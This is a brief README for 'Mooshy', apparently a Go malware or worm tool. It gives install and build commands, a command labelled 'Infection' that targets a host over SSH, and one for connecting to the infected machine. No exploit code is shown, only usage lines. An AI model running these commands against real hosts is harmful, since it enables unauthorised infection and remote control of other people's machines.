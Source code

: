 # Mooshy

Installation:
```sh
    go get -u -v github.com/rvolosatovs/mooshy/cmd/mooshy
```

Development:
```sh
    make deps # only first time
    make
```

Infection:
```sh
    mooshy -ssh -addr <host>
```

Connecting to infected machine:
```sh
    mooshy -addr <host>
```

